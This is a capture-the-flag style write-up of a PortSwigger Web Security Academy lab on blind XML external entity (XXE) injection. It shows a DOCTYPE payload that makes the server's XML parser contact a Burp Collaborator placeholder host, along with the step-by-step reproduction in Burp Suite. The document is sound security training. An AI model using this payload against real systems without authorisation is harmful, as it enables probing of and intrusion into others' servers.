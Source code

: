 # Blind XXE with out-of-band interaction

## Description

[This lab](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction) has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

## Reproduction and proof of concept

1. Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element, but insert your Burp Collaborator subdomain where indicated:

```text
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> ]>
```

5. Replace the ``productId`` number with a reference to the external entity:

```text
&xxe;
```

6. Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

## Exploitability

An attacker needs to use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. _Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server._

